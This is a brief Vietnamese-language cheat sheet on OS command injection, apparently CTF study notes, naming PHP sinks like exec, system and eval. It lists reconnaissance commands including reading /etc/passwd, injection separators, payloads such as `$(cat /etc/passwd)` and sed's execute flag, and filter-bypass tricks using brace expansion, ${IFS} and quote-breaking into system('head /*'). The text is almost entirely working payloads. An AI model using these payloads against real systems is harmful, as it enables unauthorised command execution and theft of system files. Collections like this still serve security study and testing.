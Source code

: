 # Nhận biết 

- exec()
- system()
- passthru()
- saas
- eval()
- ping


## Input
```
whoami                      => thông tin user hiện tại
id                          => hiện user và group id
ifconfig/ip addr            => thông tin giao diện mạng
uname -a                    => thông tin hệ thống 
ps -ef                      => trạng thái hiện tại 
cat /etc/passwd             => thông tin all user
lsb_release -a              => version ubuntu
ls -la 
```

## Exploit
- ;
- |
- &
- `
- $

```cmd
;ls
`|ls
" & ls
$(`cat /etc/passwd`)|$(`ls`)
exec('ls');
eval('ls');
<?phpinfo();?>
echo * 
| *
" * 
' *
. file.txt 
-n '1p' fl*.txt              #in ra dòng đầu tiên trong file fl*.txt
"s/.*/((cat flag.txt))/e"
```

## Bypass

### space 
```cmd
{cat,flag.txt}
echo${IFS}flag.txt
IFS=];b=cat]flag.txt;$b
```

### strpos & substr
```cmd
eval("echo hello";`ls`");
',system('head /*'),'

```

### all keyword
```cmd
\bash

>>>ls

` < /flag.txt `
```


